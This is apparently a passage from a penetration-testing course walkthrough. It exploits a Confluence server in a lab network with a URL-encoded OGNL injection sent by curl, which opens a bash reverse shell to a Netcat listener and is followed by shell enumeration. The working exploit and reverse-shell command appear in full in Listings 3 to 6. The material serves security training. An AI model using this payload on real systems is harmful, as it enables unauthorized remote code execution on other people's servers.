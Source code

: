 ```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

> Listing 3 - The modified payload.

Now that our payload is customized for our use, we can start a [_Netcat_](https://en.wikipedia.org/wiki/Netcat) listener on our Kali machine on TCP port 4444.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

> Listing 4 - Starting Netcat listener on port 4444 on our Kali machine.

With our listener running, we'll open another shell on our Kali machine, then run the **curl** command we just constructed.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 5 - Executing the modified reverse shell payload.

The command itself doesn't return anything, but the reverse shell is caught by our listener.

```
...
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```

> Listing 6 - Bash reverse shell caught by our Netcat listener, and confirmed with the id command.

The **id** command confirms that this shell is running with the privileges of the _confluence_ user. This user has quite limited privileges. Regardless, we now have a reverse shell from CONFLUENCE01 to our Kali machine.

We can now start some light enumeration of CONFLUENCE01 using our new shell. We'll check the network interfaces using **ip addr**.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
```